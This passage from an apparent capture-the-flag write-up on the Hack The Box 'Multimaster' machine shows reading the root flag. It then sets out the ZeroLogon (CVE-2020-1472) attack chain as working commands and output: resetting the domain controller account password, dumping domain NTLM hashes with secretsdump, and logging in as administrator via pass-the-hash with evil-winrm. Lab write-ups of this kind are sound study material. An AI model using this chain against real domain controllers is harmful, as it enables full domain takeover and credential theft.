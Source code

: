                   Total    Copied   Skipped  Mismatch    FAILED    Extras
        Dirs :         1         0         1         0         0         0
       Files :         2         2         0         0         0         0
       Bytes :       522       522         0         0         0         0
       Times :   0:00:00   0:00:00                       0:00:00   0:00:00
       Ended : Wednesday, April 1, 2020 12:48:19 PM
    
    *Evil-WinRM* PS C:\programdata\temp> dir
    
    
        Directory: C:\programdata\temp
    
    
    Mode                LastWriteTime         Length Name
    ----                -------------         ------ ----
    -ar---         4/1/2020   2:36 AM             34 root.txt
    

Now that it’s there, I can read the flag:

    
    
    *Evil-WinRM* PS C:\programdata\temp> type root.txt
    b292dfe5************************
    

### ZeroLogon

I dropped a [quick post](/2020/09/17/zerologon-owning-htb-machines-with-
cve-2020-1472.html) earlier this week on CVE-2020-1472. I could have run this
without doing anything else on the box, and it works here too:

    
    
    (venv) root@kali# python /opt/CVE-2020-1472/cve-2020-1472-exploit.py MULTIMASTER 10.10.10.179
    Performing authentication attempts...
    ======================
    Target vulnerable, changing account password to empty string                                    
    
    Result: 0
    
    Exploit complete!
    
    (venv) root@kali# secretsdump.py -no-pass -just-dc MULTIMASTER\$@10.10.10.179
    Impacket v0.9.22.dev1+20200915.115225.78e8c8e4 - Copyright 2020 SecureAuth Corporation
    [*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)                                               
    [*] Using the DRSUAPI method to get NTDS.DIT secrets                                                                 
    Administrator:500:aad3b435b51404eeaad3b435b51404ee:69cbf4a9b7415c9e1caf93d51d971be0:::         
    Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::                              
    krbtgt:502:aad3b435b51404eeaad3b435b51404ee:06e3ae564999dbad74e576cdf0f717d3:::
    DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    MEGACORP.LOCAL\svc-nas:1103:aad3b435b51404eeaad3b435b51404ee:fe90dcf97ce6511a65151881708d6027:::
    ...[snip]...
    

I can now use the administrator hash to get [Evil-
WinRM](https://github.com/Hackplayers/evil-winrm):

    
    
    root@kali# evil-winrm -u administrator -i 10.10.10.179 --hash 69cbf4a9b7415c9e1caf93d51d971be0
    
    Evil-WinRM shell v2.3
    
    Info: Establishing connection to remote endpoint
    
    *Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
    megacorp\administrator
    

[](/2020/09/19/htb-multimaster.html)


